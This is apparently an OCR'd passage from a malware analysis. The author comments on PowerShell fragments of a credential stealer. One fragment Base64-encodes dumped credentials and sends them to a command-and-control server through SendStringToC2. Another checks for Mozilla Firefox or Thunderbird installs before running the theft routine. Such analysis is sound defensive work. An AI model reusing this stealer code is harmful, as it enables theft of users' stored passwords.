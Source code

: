 <h6>This time doesn't check the import of the class (works in .NET Framework 4.7.2 and later versions), this use it for perform the asynchronous communication layer to serialize and deserialize the credentials dumped. But why not used the native json format with asynchronous call by job for be more compatible with more OS versions and that the attacker has already used (so now how works except this a edited copy/paste of course) ?</h6>

```csharp
# Try/catch ? 
Add-Type -AssemblyName System.Web.Extensions;
$ps_js = new-object system.web.script.serialization.javascriptSerializer;
try
{
    $sendInfo = @{};
    $allInfo["info"].GetEnumerator() | %{
      $host1 = ([string]$_.key).toLower();
      if( $host1 -ne "empty" )
      {
        $sendInfo[ $host1 ] = @();
        foreach($value in $_.value ) 
        {
          $sendInfo[ $host1 ] += @{ [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes( [string]($value.Keys) ) ) = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes( [string]($value.Values) ) ) };
        } 
      }
    }
    try{ SendStringToC2 ("cred=" +  [uri]::EscapeDataString( $ps_js.Serialize($sendInfo) ) ); }catch{}
    try{ SendStringToC2 ("crederror=" + $allInfo["error"]); }catch{}
}
catch{}
} #End of "stiller" block
```

<h6>The main function is only for performing the recognization of the good format to use for the .NET class for exploit the dll. Most of this code is copied from the previous described functions.</h6>

```csharp
function main()
{
    # Copy/Paste skill
  try
  {
    $mPaths = @("$env:SystemDrive\Program Files\Mozilla Firefox", "$env:SystemDrive\Program Files\Mozilla Thunderbird", "$env:SystemDrive\Program Files (x86)\Mozilla Firefox", "$env:SystemDrive\Program Files (x86)\Mozilla Thunderbird")    
    $mozillaPath = $null
    foreach($path in $mPaths) 
    {
      $nssPath = $(Join-Path ([string]$path) ([string]'nss3.dll'))
      if([System.IO.File]::Exists($nssPath)) 
      {
        $mozillaPath = $path;
        break;
      }
    }
    if($mozillaPath -eq $null) {$result = $stillerBlock.Invoke();}
    else
    { 
      $dll = $(Join-Path ([string]$mozillaPath) ([string]'nss3.dll'))
      $is86dll = (Get-ExecutableType -Path $dll) -eq 32
      $is86 = [IntPtr]::Size -eq 4
      $result = $null;
      if($is86dll -and $is86) {$result = $stillerBlock.Invoke();}
```